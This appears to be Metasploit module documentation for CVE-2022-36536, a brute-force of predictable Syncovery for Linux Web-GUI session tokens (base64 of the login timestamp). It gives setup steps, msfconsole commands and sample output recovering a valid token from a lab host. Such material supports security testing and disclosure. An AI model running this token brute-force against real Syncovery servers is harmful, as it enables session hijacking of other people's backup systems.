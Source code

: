 ## Vulnerable Application
[Syncovery For Linux with Web-GUI](https://www.syncovery.com/download/linux/)

This module attempts to brute-force a valid session token for the Syncovery File Sync & Backup Software Web-GUI
by generating all possible tokens, for every second between 'DateTime.now' and the given X day(s).
By default today and yesterday (DAYS = 1) will be checked. If a valid session token is found, the module stops.
The vulnerability exists, because in Syncovery session tokens are basically just `base64(m/d/Y H:M:S)` at the time
of the login instead of a random token.
If a user does not logout, the token stays valid until next reboot. Note that the mobile version of the WEB GUI
as well as the obsolete branch 8 of Syncovery do not have a logout button.

This affects Syncovery for Linux before v9.48j and all versions of the obsolete branch 8.

### Setup

Installing a vulnerable version of Syncovery for Linux to test this vulnerability is quite easy.
Download a vulnerable version of Syncovery for Linux: https://www.syncovery.com/release/Syncovery-9.47a-amd64.deb
Install it and once the server is up, you can access it on port 8999 for testing...

## Authors

- Jan Rude (mgm security partners GmbH)

## Platforms

- Unix

## Verification Steps

1. `use auxiliary/scanner/http/syncovery_linux_token_cve_2022_36536`
2. `set RHOSTS <TARGET HOSTS>`
3. `run`
5. On success you should get a valid token.

## Options

### TARGETURI
The path to Syncovery login mask.

### PORT
The (TCP) target port on which Syncovery is running. By default port 8999 is used for HTTP and port 8943 is used for HTTPS.

## Scenarios

### Syncovery for Linux with default credentials

```
msf6 > use auxiliary/scanner/http/syncovery_linux_token_cve_2022_36536
msf6 auxiliary(scanner/http/syncovery_linux_token_cve_2022_36536) > set rhosts 192.168.178.26
rhosts => 192.168.178.26
msf6 auxiliary(scanner/http/syncovery_linux_token_cve_2022_36536) > options

Module options (auxiliary/scanner/http/syncovery_linux_token_cve_2022_36536):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   DAYS       1                yes       Check today and last X day(s) for valid session token
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.178.26   yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      8999             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                no        The path to Syncovery
   THREADS    1                yes       The number of concurrent threads (max one per host)
   VHOST                       no        HTTP server virtual host

msf6 auxiliary(scanner/http/syncovery_linux_token_cve_2022_36536) > check
[+] 192.168.178.26:8999 - The target is vulnerable.
msf6 auxiliary(scanner/http/syncovery_linux_token_cve_2022_36536) > run

[*] 192.168.178.26:8999 - Starting Brute-Forcer
[+] 192.168.178.26:8999 - Valid token found: 'MDkvMDYvMjAyMiAxMzo0NDoxMg=='
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

## Limitations
In Syncovery v9.x tokens get invalidated after the user logs out. In this case no valid token can be found.
